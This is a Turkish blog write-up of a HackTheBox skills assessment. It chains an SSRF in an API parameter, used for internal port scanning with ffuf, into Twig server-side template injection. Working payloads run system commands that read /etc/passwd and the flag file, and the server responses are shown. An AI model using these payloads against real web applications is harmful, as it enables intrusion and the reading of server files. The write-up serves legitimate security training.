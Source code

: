 ```yaml
---
title: "HackTheBox: Server-Side Attacks"
author: b1lal
categories: [HackTheBox, "Skills Assessment"]
tags: [server-side attacks, ssti, hackthebox, skills assessment, ssrf, api]
render_with_liquid: false
description: "HacktheBox platformunda Server-Side Attacks modülündeki yetenek değerlendirme sorularının çözümünü içermektedir."
media_subpath: /images/hackthebox_server_side_attacks/
layout: post
published: true  
lang: "tr"
image:
  path: server-side-main.webp
  alt: "HackTheBox: Server-Side Attacks"
---
```


Bu yazımızda HackTheBox platformunda bulunan **Server-Side Attacks** modülündeki yetenek değerlendirme sorularının çözümünü paylaşacağım. Bu modüldeki, yetenek değerlendirme sorusu sunucu taraflı zafiyetleri ne derece kavradığımızı ölçmeyi amaçlamaktadır.


> Bir müşterinin web uygulamasının güvenlik değerlendirmesini yapmakla görevlendirildiniz. 

Bu soruda herhangi bir ön bilgimiz bulunmamaktadır. Amacımız **flag.txt**'yi elde etmektir.


İlk olarak sistemi başlatıyoruz ve bizi bu tarz bir web uygulaması karşılıyor:

![Ana Sayfa](website.png)


Navbar bölümünde bulunan işlevlerin aktif olmadığını görüyoruz. Aşağı indiğimizide orada da herhangi bir aktif işlev bulunmuyor. Sayfa kaynağına göz atıyoruz ve bu **javascript** kodu gözümüze çarpıyor:

```javascript
for (var truckID of ["FusionExpress01", "FusionExpress02", "FusionExpress03"]) {
	var xhr = new XMLHttpRequest();
	xhr.open('POST', '/', false);
	xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	xhr.onreadystatechange = function() {
	  if (xhr.readyState === XMLHttpRequest.DONE) {
	    var resp = document.getElementById(truckID)
		if (xhr.status === 200) {
		  var responseData = xhr.responseText;
		  var data = JSON.parse(responseData);

		if (data['error']) {
			resp.innerText = data['error'];
		} else {
			resp.innerText = data['location'];
		}
	  } else {
		  resp.innerText = "Unable to fetch current truck location!"
	  }
	}       
   };
 xhr.send('api=http://truckapi.htb/?id' + encodeURIComponent("=" + truckID));
}
```

Bu kod, `truckID` adlı bir dizi içindeki her bir öğe için bir HTTP POST isteği gönderiyor. İstek, `http://truckapi.htb/` adresine yapılıyor ve `id` parametresi ile birlikte `truckID` değerini içeriyor. 

Bunu ağ trafiğini izleyerek daha iyi anlayabiliriz. Geliştirici araçlarını açıp `Network` sekmesine geçiyoruz ve sayfayı yeniliyoruz. Burada `truckapi.htb` adresine yapılan istekleri görebiliriz.

![Network](network.png)


Şimdi Burp Suite aracını başlatarak bu isteği manipüle etmeyi deneyebiliriz. 

POST isteğini yakalayarak `repeater` sekmesine gönderiyoruz.

![Burp Suite](burp-1.png)


Burada ilk olarak aklıma gelen zafiyet `SSRF`'dir. Bu zafiyet, sunucunun dışarıya istek göndermesini ve bu isteklerin kontrolünü ele geçirmemizi sağlar. Bunun için ilk olarak sayfanın **index.php** dosyasına istek atıyoruz.

![Burp Suite](get-index.png)

Başarılı bir şekilde `index.php` dosyasını getirebilrdi. Şimdi `file://` protokolünü kullanarak sunucunun dosya sistemine erişmeyi deneyelim.

![SSRF Dosya Okuma Denemesi](ssrf-file.png)

Ve görüldüğü başarısız oluyoruz. Muhtemelen sunucu, `file://` protokolünü engelliyor.

Daha sonra `gopher://` protokolünü deniyoruz. Bu protokol, genellikle `SSRF` zafiyetlerinde kullanılır ve sunucunun dosya sistemine erişim sağlamamıza olanak tanır. Bunu denemeden önce sistemde açık olan diğer portları da kontrol etmey için ffuf aracını kullanıyoruz. Başka saldırı yapabileceğimiz bir servisin olup olmadığını görmemiz işimizi kolaylaştıracaktır.

```bash
$ ffuf -u http://94.237.121.185:57068 -c -w ports.txt -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Failed to connect to" 

        /___\  /___\           /___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.121.185:57068
 :: Wordlist         : FUZZ: /home/htb-ac-1326200/ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : api=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Failed to connect to
________________________________________________

80                      [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 1934ms]
3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 6ms]
:: Progress: [10000/10000] :: Job [1/1] :: 1197 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

80 portu dışında, 3306 portunun da açık olduğunu görüyoruz. Bu port, genellikle MySQL veritabanı sunucusuna aittir. Şimdi `gopher://` protokolünü kullanarak bu porta istek atmayı deneyelim.

Basit bir şekilde gopher:// isteği atmama rağmen onunda engellendiğini görüyorum.

```http
HTTP/1.1 200 OK
Date: Sun, 15 Jun 2025 08:49:36 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 65
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Error (1): Protocol "gopher" not supported or disabled in libcurl
```

Bunlardan da sonuç çıkmadığına göre ilk **API**'de gördüğümüz `id` parametresi üzerinde biraz oynama yapmak istiyorum.

![SSTI zafiyeti denemesi](ssti-deneme.png)

**ID** parametresine ne yazarsam yazayım olduğu gibi yansıttığını görüyorum SSTI zafiyetini olduğunu biraz daha güçlendirmek için bu payloadı gönderiyorum : `${{<%[%'"}}%\. ` 

Herhangi bir cevap dönmüyor bu sebeple iddialarımız biraz daha güçleniyor. Şimdi burada kullanılan Template Motorunu tespit etmek için `{{7*7}}` payloadunu gönderiyorum.

Ve şu şekilde bir cevap alıyorum:

```json
{"id": "49", "location": "134 Main Street"}
```

Yani başarıyla SSTI zafiyetini tespit ettik. Şimdi bu senaryoda `Jinja` veya `Twig` template motorlarından birinin kullanıldığını biliyoruz. Ama üzerinde daha fazla deneme yapmadan `Twig` kullanıldığını anlayabiliyoruz çümkü `Twig` template motoru PHP dilinde kullanılırken, Jinja Python dilinde kullanılmaktadır.

Bunu kanıtmalak için bu payloadı gönderiyoruz : `{{_self}}`

Aldığımız cevap ise bu şekilde olmakadır :

```json
{"id": "__string_template__0177c07c1ce875b2c81f5871e3da1c28", "location": "134 Main Street"}
```

Yani Twig motorunun `_self` değişkenini kullanarak, Twig'in kendi kendine referans verdiğini görüyoruz. Bu da bize `Twig` template motorunun kullanıldığını gösteriyor.

Şimdi ise dosya okumabileceğimizi test etmek için şu payloadu gönderiyoruz:

```twig
{{['cat\x20/etc/passwd']|filter('system')}} 
```

Ve şu şekilde cevabımızı alıyoruz :

```http
HTTP/1.1 200 OK
Date: Sun, 15 Jun 2025 09:04:08 GMT
Server: Apache/2.4.62 (Debian)
Vary: Accept-Encoding
Content-Length: 941
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"id": "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
mysql:x:100:101:MySQL Server,,,:/nonexistent:/bin/false
Array", "location": "134 Main Street"}
```

Son olarak da flag.txt dosyasını okumak için şu payloadu gönderiyoruz:

```twig
{{['cat\x20/flag.txt']|filter('system')}}
```

Ve istediğimiz cevabı alıyoruz:

```http
HTTP/1.1 200 OK
Date: Sun, 15 Jun 2025 09:10:55 GMT
Server: Apache/2.4.62 (Debian)
Vary: Accept-Encoding
Content-Length: 83
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"id": "HTB{...SNIP...}Array", "location": "134 Main Street"}
``` 

Bu şekilde `flag.txt` dosyasının içeriğini elde etmiş olduk.

<p style="font-weight:900; color: gray; font-size: 50px; text-align:center;">Okuduğunuz için teşekkür ederim.<p>

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
  white-space: pre-wrap;
}


.post-desc {
  font-family: 'Open Sans', sans-serif !important;
}

</style>
